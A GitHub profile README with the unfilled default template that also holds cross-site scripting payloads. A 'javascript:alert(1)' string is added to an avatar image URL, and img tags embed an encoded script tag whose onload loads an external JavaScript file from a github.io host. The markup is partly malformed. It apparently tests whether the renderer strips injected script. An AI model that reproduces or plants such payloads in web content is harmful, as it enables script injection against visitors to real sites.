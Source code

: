 - 👋 Hi, I’m @falx00h
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

![text](https://avatars.githubusercontent.com/u/92805783?s=40&javascript:alert(1);)
![
<img src='' alt='img/%3cscript+onload='https://r89shi.github.io/teste.js'%3e'>
<IMG SRC= img/%3cscript+onload='https://r89shi.github.io/teste.js'%3e >

](()
